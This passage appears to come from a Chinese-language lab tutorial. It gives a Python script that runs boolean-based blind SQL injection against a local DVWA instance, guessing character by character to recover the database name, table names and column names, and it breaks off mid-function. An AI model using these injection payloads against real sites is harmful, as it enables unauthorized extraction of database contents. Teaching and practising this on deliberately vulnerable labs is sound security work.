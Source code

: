 **因为人工盲注挨个字母来试错很麻烦，所以这里使用脚本来进行盲注**

```python
import requests
import string
chars = string.printable[:]  # 返回所有可打印的字母，数字，符号的集合
# print(chars)
base_url = "http://127.0.0.1:8090/dvwa/vulnerabilities/sqli_blind/?"
session = requests.session()
cookies = {'security': 'low', 'PHPSESSID': '33gvmgr5a5lhjau9n9gq044oqp'}
# 库名长度
def get_dbname_length():
    for dbname_length in range(1, 30):
        url = base_url + "id=1' and length(database())={}%23&Submit=Submit".format(dbname_length)  # %23解码为'#'
        response = session.get(url, cookies=cookies).text
        if "User ID exists in the database" in response:
            print("dbname_length:{}".format(dbname_length))
            break
    # return dbname_length
get_dbname_length()
# 库名
def get_database_name(dbname_length):
    dbname = ''
    for i in range(1, dbname_length + 1):
        for c in chars:
            url = base_url + "id=1' and substr(database(),{},1)='{}'%23&Submit=Submit#".format(i, str(c))
            response = session.get(url, cookies=cookies).text
            if "User ID exists in the database" in response:
                dbname = dbname + str(c)
                break
    print("dbname:{}".format(dbname))
    # return dbname

# 库中的所有表名
get_database_name(4)
def get_tables_name(db_name):
    tables_name = ''
    for i in range(1, 30):
        for c in chars:
            url = base_url + "id=1' and substr((select group_concat(table_name) from information_schema.tables where table_schema='{}'),{},1) = '{}'%23&Submit=Submit#".format(
                db_name, i, str(c))
            # print(url)
            response = session.get(url, cookies=cookies).text
            if "User ID exists in the database" in response:
                print(c)
                tables_name = tables_name + str(c)
                break
    print("tables_name:{}".format(tables_name))
    # return tables_name
get_tables_name("dvwa")
# 表中的所有列名
def get_columns_name(db_name, table_name):
    columns_name = ''
    for i in range(1, 100):
        for c in chars:
            url = base_url + "id=1' and substr((select group_concat(column_name) from information_schema.columns where table_schema = '{}' and table_name = '{}'), {}, 1) = '{}'%23&Submit=Submit#".format(
                db_name, table_name, i, c)
            response = session.get(url, cookies=cookies).text
            if "User ID exists in the database" in response:
```
